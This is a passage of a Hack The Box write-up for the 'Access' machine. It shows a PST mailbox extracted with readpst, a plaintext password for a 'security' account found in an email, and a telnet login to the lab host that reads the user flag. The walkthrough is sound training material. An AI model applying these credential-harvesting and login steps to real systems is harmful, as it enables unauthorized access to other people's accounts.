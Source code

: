 ```
Compressed: 10870
```

We can read the PST file content with `readpst` and it'll create an mbox file:

```
root@darkisland:~/hackthebox/Machines/Access# readpst access.pst
Opening PST file and indexes...
Processing Folder "Deleted Items"
	"Access Control" - 2 items done, 0 items skipped.

root@darkisland:~/hackthebox/Machines/Access# ls -l
total 5820
-rw-r--r-- 1 root root    3112 Sep 30 18:36 'Access Control.mbox'
```

Looking in the mbox file we find an email with another set of credentials:

```
root@darkisland:~/hackthebox/Machines/Access# cat 'Access Control.mbox'
From "john@megacorp.com" Thu Aug 23 19:44:07 2018
Status: RO
From: john@megacorp.com <john@megacorp.com>
Subject: MegaCorp Access Control System "security" account
To: 'security@accesscontrolsystems.com'
[...]
Hi there,

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

Regards,

John
```

Found the following credentials:
 - `security` / `4Cc3ssC0ntr0ller`

### Getting a shell

Telnet is enabled on this box so we can use that last set of credentials and log in to the server:

```
root@darkisland:~/hackthebox/Machines/Access# telnet 10.10.10.98
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login: security
password: 4Cc3ssC0ntr0ller

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>type desktop\user.txt
ff1f3b<redacted>
```

